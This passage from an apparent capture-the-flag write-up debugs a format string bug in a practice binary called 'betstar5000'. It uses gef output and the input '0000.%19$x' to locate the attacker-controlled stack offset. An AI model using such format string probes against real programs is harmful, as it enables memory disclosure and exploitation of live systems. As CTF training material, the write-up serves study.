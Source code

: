 ```
────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd020│+0x0000: 0xffffd06c  →  "0000.%19$x"     ← $esp
0xffffd024│+0x0004: 0x5655605c  →  "And the winner is *drumroll*:"
0xffffd028│+0x0008: 0xf7fb55c0  →  0xfbad2288
0xffffd02c│+0x000c: 0x565558d5  →   mov ecx, eax
0xffffd030│+0x0010: 0x00000001
0xffffd034│+0x0014: 0x00000000
0xffffd038│+0x0018: 0xf7e0f53b  →   add eax, 0x1a5ac5
0xffffd03c│+0x001c: 0x56558980  →  0x565589c0  →  "0000.%19$x"
──────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565559d8                  sub    esp, 0xc
   0x565559db                  lea    eax, [ebp-0x4c]
   0x565559de                  push   eax
 → 0x565559df                  call   0x565555a0 <printf@plt>
   ↳  0x565555a0 <printf@plt+0>   jmp    DWORD PTR [ebx+0x10]
      0x565555a6 <printf@plt+6>   push   0x8
      0x565555ab <printf@plt+11>  jmp    0x56555580
      0x565555b0 <fflush@plt+0>   jmp    DWORD PTR [ebx+0x14]
      0x565555b6 <fflush@plt+6>   push   0x10
      0x565555bb <fflush@plt+11>  jmp    0x56555580
──────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   [sp + 0x0] = 0xffffd06c → "0000.%19$x"
)
──────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "betstar5000", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565559df → call 0x565555a0 <printf@plt>
[#1] 0x56555ccb → add esp, 0x10
[#2] 0xf7df5e81 → __libc_start_main()
[#3] 0x565556c1 → hlt
─────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

Now for our format string spot `1` is `0xffffd024`. Spot `19` would be `0xffffd024 + (4*18) = 0xffffd06c`:

```
gef➤  x/w 0xffffd06c
0xffffd06c:    0x30303030
gef➤  c
Continuing.
And the winner is *drumroll*: 0000.30303030
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
```
